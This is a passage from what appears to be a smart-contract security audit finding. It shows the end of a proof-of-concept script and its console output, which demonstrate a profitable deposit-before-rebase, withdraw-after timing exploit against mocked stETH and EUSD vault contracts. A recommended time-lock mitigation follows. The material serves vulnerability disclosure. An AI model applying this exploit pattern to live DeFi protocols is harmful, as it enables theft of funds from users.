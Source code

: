 ```
        console.log("Timestamp after the exploit: " + timestampAfter)
        //stETH balance
        const sthETHBalanceAfter = await stETHMock.balanceOf(accounts[3].address)
        console.log("sthETH balance after the exploit: " +sthETHBalanceAfter)
        //EUSD shares
        const EUSDSharesAfter = await this.EUSDMock.sharesOf(accounts[3].address)
        console.log("EUSD shares after the exploit: " + EUSDSharesAfter)
        //EUSD balance 
        const EUSDBalanceAfter = await this.EUSDMock.balanceOf(accounts[3].address)
        console.log("EUSD balance after the exploit: " + EUSDBalanceAfter)
        //Deposited assets
        const depositedAssetAfter = await stETHVault.depositedAsset(accounts[3].address)
        console.log("Deposited assets after the exploit: " + depositedAssetAfter)
        //Borrowed amount
        const borrowedAfter = await stETHVault.getBorrowedOf(accounts[3].address)
        console.log("Borrowed amount after the exploit: " + borrowedAfter)

        expect(sthETHBalanceAfter > sthETHBalanceBefore)

}

// We recommend this pattern to be able to use async/await everywhere
// and properly handle errors.
main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```
It will log the following content to the console:
```
Deployng contracts...
Timestamp before the exploit: 1688138231
sthETHBalance before the exploit: 99999999999999999999
EUSD shares before the exploit: 0
EUSD balance before the exploit: 0
Deposited assets before the exploit: 0
Borrowed amount before the exploit: 0
Alice deposits before rebase and withdraws immediately after
Timestamp after the exploit: 1688138238
sthETH balance after the exploit: 100000319476188886835
EUSD shares after the exploit: 320852235386255949
EUSD balance after the exploit: 321329019285990239
Deposited assets after the exploit: 0
Borrowed amount after the exploit: 0
```

## Recommended Mitigation Steps
The same time lock logic that is applied to the withdraw function could be applied to rigidRedemption, making this type of interactions unprofitable.





## Assessed type

Timing